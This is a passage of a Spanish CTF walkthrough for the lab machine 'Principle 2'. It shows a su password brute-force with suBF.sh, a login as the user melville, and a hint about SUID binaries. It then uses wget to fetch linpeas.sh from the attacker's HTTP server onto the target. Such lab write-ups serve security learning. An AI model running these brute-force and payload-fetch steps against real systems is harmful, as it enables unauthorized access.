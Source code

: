 Una vez tengamos todo listo, podemos ejecutar el programa:

```shell
hermanubis@principle2:/tmp$ ./suBF.sh -u melville -w all.txt
  [+] Bruteforcing melville...
  You can login as melville using password: 1bd5528b6def9812acba8eb21562c3ec
```

¡Qué bien, hemos encontrado al contraseña de **`Melville`**! Vamos a ver si realmente es la contraseña:

```shell
hermanubis@principle2:/tmp$ su melville
Password: 1bd5528b6def9812acba8eb21562c3ec
root is watching you, it has a record of all your steps:

melville@principle2:/tmp$
```

### Subida de privilegios #2
Estamos a un paso de obtener el **`control total`** de la máquina, pero aún tenemos un desafío por hacer.

Para comenzar miraré de nuevo el directorio personal, en este caso de **`Melville`**:

```shell
melville@principle2:~$ ls -la
total 32
drwx------ 3 melville melville 4096 Nov 26 11:38 .
drwxr-xr-x 7 root     root     4096 Nov 25 16:19 ..
lrwxrwxrwx 1 root     root        9 Nov 25 15:25 .bash_history -> /dev/null
-rw-r--r-- 1 melville melville  220 Apr 23  2023 .bash_logout
-rw-r--r-- 1 melville melville 3616 Nov 25 16:09 .bashrc
-rw------- 1 melville melville   20 Nov 25 16:12 .lesshst
drwxr-xr-x 3 melville melville 4096 Nov 23 20:55 .local
-rw-r--r-- 1 melville melville   39 Nov 25 17:11 note.txt
-rw-r--r-- 1 melville melville  807 Apr 23  2023 .profile
```

Vemos que hay un nota (**`note.txt`**), veamos lo que pone:

```
Don't touch SUID, it is very DANGEROUS
```

Nos da una pista de lo que tenemos que hacer, nos dice que no toquemos los binarios **`SUID`**, que son peligrosos.

Como eso no nos dice mucho me dispuse a ejecutar la herramienta [**`linpeas.sh`**](), una herramienta que nos enumera el sistema en busca de **`exploits`** o puntos débiles:

```shell
┌──(root㉿kali)-[~/…/VMs/HMV/Principle 2/exploits]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
melville@principle2:/tmp$ wget http://192.168.1.103/linpeas.sh
--2024-02-27 01:52:34--  http://192.168.1.103/linpeas.sh
Connecting to 192.168.1.103:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 836190 (817K) [text/x-sh]
Saving to: ‘linpeas.sh’

linpeas.sh                        100%[============================================================>] 816.59K  --.-KB/s    in 0.01s   

2024-02-27 01:52:34 (82.8 MB/s) - ‘linpeas.sh’ saved [836190/836190]
```
